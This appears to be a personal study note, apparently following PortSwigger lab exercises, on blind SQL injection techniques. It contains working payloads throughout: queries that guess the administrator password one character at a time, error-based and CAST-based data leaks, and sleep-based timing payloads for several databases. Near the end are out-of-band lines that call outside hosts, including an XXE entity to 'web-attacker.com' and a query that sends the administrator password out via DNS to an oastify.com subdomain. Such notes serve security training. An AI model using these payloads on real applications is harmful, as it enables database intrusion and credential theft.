










#Blind-SQLi: When HTTP **responses do not contain the results** of the relevant SQL query or the **details of any database errors**, making `UNION` attacks ineffective.

## Exploitation via triggering conditional responses
Probing an injection point by constructing `TRUE`/`FALSE` conditional statements, typically by using `SUBSTRING()`/`SUBSTR()`.

E.g. if a `Cookie: TrackingId=xyz` results in a back-end SQL statement that **changes the application behaviour depending on whether the query returns any data** (e.g. finding a tracked user), can concatenate a `TRUE`/`FALSE` statement to **infer data/the existence of tables:**
- `' AND '1'='1'` (True)
- `' AND '2'='1'` (False)
If **True**, implies statement is **True**:
- `AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's` (password character guesser)
- `' AND (SELECT 'a' FROM users LIMIT 1)='a` (determines existence of a given table, `users`)
- `' AND (SELECT 'a' FROM users WHERE username='admin')='a` (checks for a given user `admin` in table `users`)
- `' AND (SELECT 'a' FROM users WHERE username='admin' AND LENGTH(password)=2)='a` (determines length of password)
``` sql
/* RETURNS TRUE, with "Welcome back" message displayed.*/
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abc' AND '1'='1'

/* RETURNS FALSE, with "Welcome back" message absent.*/
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abc' AND '2'='1'

/* RETURNS TRUE, infers position and then the first character of password. Repeat to find whole password*/
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abc' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm

... ' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't

' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

Can infer based on statements appended to `TrackingId`":
**True:** - `Welcome Back!` displayed.


Can attempt to guess admin password, knowing that there is a table called `users`, with columns called `username` and `password`. Using the following query, and placing payloads to iterate through all iterations (**Clusterbomb attack**) of the **character offset `X`** and **the character value `Y`**, we can discern the characters that make up the password:
``` sql
AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), X, 1) = 'Y
```



Adding a **Clusterbomb** attack, that iterates through all combinations of 


Filtering based on a specific **Response Length** (aka finding pages containing our `TRUE` condition indicator, the *"Welcome Back!"* string).

After ordering from 1-20, results in password: `rbu06x7qul5abrktx7hl`.

---
## Error-based SQL injection
Where **error messages can be used to extract/infer sensitive data** from the database, even in blind contexts. Two main types:

### Specific [conditional error responses](https://portswigger.net/web-security/sql-injection/blind#exploiting-blind-sql-injection-by-triggering-conditional-errors):
Modifying injected queries to cause a database error only if the condition is true. Will often use the `CASE` keyword to test & evaluate a condition:
``` sql
/* As 1≠2, does not perform 1/0 (throwing error). Instead, evaluates to 'a'='a' and returns TRUE */
...xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
/* As 1=1, performs 1/0 (throwing divide-by-zero error). */
...xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
- With the first input, the `CASE` expression evaluates to `'a'` which **does not cause any error**.
- With the second input, it evaluates to `1/0`, which **causes a divide-by-zero error**.
May need, depending on database:
- `TO_CHAR(1/0)`
- Surround query with `||` - i.e. `'||(SELECT '' FROM dual)||'`
- Add `... FROM dual)` when working with #Oracle databases.
Can stack previous conditional logic checker conditions (like for testing password characters) into `CASE` statement to infer information:
``` sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```
- See [syntax quirks for databases here.](https://portswigger.net/web-security/sql-injection/cheat-sheet#conditional-errors)
#### Process: Blind SQL injection with conditional errors ([Lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors))
1. **Test for SQL queries:** append `'`, then `''`, and observe errors. If one `'` causes a syntax error, and has a detectable impact on response, can be used to infer information about the database.
2. **Verify the server interprets the injection as a SQL query:** To do so, construct a **valid** SQL subquery: 
	   - `'||(SELECT '')||'` = *Resulted in Error - may be an Oracle database.* 
	   - `'||(SELECT '' FROM dual)||'` = *NoError (implies it **IS** an #Oracle Database, requiring a valid table to SELECT from, and is a SQL syntax error as opposed to any other)*
3. **Identify existence of tables:** 
	   - `'||(SELECT '' FROM tablex WHERE ROWNUM = 1)||'` = **Error** (`tablex` doesn't exist).
	    This needs `WHERE ROWNUM = 1` to prevent query from returning more than one row, which may break concatenation)
4. **Create a `True/False` case to infer database info:** construct a statement where an error is received when the condition is `TRUE`. E.g., 
   `'||(SELECT CASE WHEN [statement-here] THEN TO_CHAR(1/0) ELSE '' END)||'`
``` sql
/* Surround these statements with '' */

/* PASSWORD GUESSER */ 
/*Replace x,y with variables in intruder to test for characters in a password. When error occurs, implies statement SUBSTR(password,x,1)='y' is true.  */
||(SELECT CASE WHEN SUBSTR(password,x,1)='y' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||

/* USERNAME CHECKER*/
||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||

/* VALUE LENGTH CHECKER - increment x*/
||(SELECT CASE WHEN LENGTH(password)=x THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||
```



---
### Extracting sensitive data via SQL error messages
Verbose error messages reflected into the application can be manipulated to return some of the data returned by the original query. To do so, use the `CAST()` **function**, which **allows conversion from one SQL data type to another.**

As data being read is often a string, attempting to convert to an `int` can often result in an error returning the injected query: `ERROR: invalid input syntax for type integer: "Example data"`
``` sql
/* CAST example:*/
CAST((SELECT example_column FROM example_table) AS int)

/* CAST nested in error message example:*/
CAST((SELECT username,password FROM users WHERE username='administrator') AS int)

AND 1=CAST((SELECT username FROM users LIMIT 1) as int)--
```

#### Process ([Lab](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)):
1. Observe `'` prompts an unclosed string literal error. Add `--` to comment out rest of line (and string) to secure our injection point.
2. As **subquery output is reflected in error message**, construct a syntactically-valid SQL subquery that uses `CAST()` to convert to a data type that doesn't match the type expected. This causes an error, returning the requested data from subquery within the response.
3. May need to troubleshoot based on error messages:
	1. `TrackingId=xxx' AND CAST((SELECT 1) AS int)--` **Error:** *(AND condition must be a boolean expression)*
	2. `TrackingId=xxx' AND 1=CAST((SELECT 1) AS int)--` (valid ✅)
	3. `TrackingId=xxx' AND CAST((SELECT username FROM users) AS int)--` **Error:** *(query too long, so comment characters `--` not included, breaking syntax)*
	4. `' AND CAST((SELECT username FROM users) AS int)--` (after removing `TrackingId`, length is valid ✅, BUT - **Error:** *(more than one row returned)* 
	5. `' AND CAST((SELECT username FROM users LIMIT 1) AS int)--`
	   (valid ✅ - leaks first username in table!)

---

## Blind SQL injection: conditional time delays
If SQL errors are handled gracefully & not reflected into application, can possibly exploit blind SQL injection points by triggering **time delays** depending on ***whether an injected condition is true or false.***

As SQL queries are processed synchronously by the application, **delaying the SQL query's execution also delays the HTTP response.** This allows you to **determine the truth of the injected condition** based on HTTP response time.
- [Syntax examples](https://portswigger.net/web-security/sql-injection/cheat-sheet#conditional-time-delays)
- May need to prepend url-encoded `;`
``` sql
/* Begin with '*/
/*Oracle*/
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual

/*Microsoft*/
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'

/*PostgreSQL*/
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END

/*MySQL*/
SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a') 
; IF (1=2) WAITFOR DELAY '0:0:10'--
```

- **Verify it's vulnerable** with `||pg_sleep(10)--` (or other sleep payloads)
- Test basic conditional logic (each being **url-encoded**): 
	- `'; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--` --> if sleeps, is vulnerable.
- Expand logic to infer data:
	- `'; SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--` --> checks if a user exists (true if sleeps)
	- `'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,x,1)='y') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--` (Use **Intruder & filter by response time**: `x` being character position, and `y` being alphanumeric character.) 

---

### Out-of-band (OAST) techniques (DNS-based)
If apps **process requests asynchronously** (e.g. continues processes the user's request in the original thread, and uses another thread to execute SQL queries), can attempt to **trigger out-of band network interactions based on an injected condition.**

Can either be used to **infer information one piece at a time**, or **exfiltrate data directly within the network interaction**. 

Most reliable exfiltration method is **through `DNS`**, as is not commonly blocked/filtered as is essential for the normal operation of production systems. Techniques for triggering DNS queries [depend on the database](https://portswigger.net/web-security/sql-injection/cheat-sheet#dns-lookup).

``` sql
/*Microsoft SQL*/
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

May need to combine with other attacks, like `XXE`, to initiate a call to a remote service:
``` sql
/*Standard XXE*/
<!DOCTYPE root [ <!ENTITY % xxe SYSTEM "http://web-attacker.com"> %xxe; ]>

/* Begin with '*/
/* Combining SQL injection with XXE OAST technique: */
UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % xxe SYSTEM "http://web-attacker.com/"> %xxe;]>'),'/l') FROM dual--
```

#### Exfiltrating data from DNS lookups ([Lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)):
- Retrieves some data, appends it to a unique Collaborator subdomain, and triggers a DNS lookup (exfiltrating said data).
- Check [various syntax types here](https://portswigger.net/web-security/sql-injection/cheat-sheet#dns-lookup-with-data-exfiltration)

1. Test various payloads for database types to see if can perform an OOB interaction.
2. Once confirmed, add a subquery to execute within the OOB server's subdomain
``` sql
/* Begin with '. Extracts password of a given user*/
UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % xxe SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.fudx75l867utems3diu01arw9nfe35ru.oastify.com/"> %xxe;]>'),'/l') FROM dual--
```
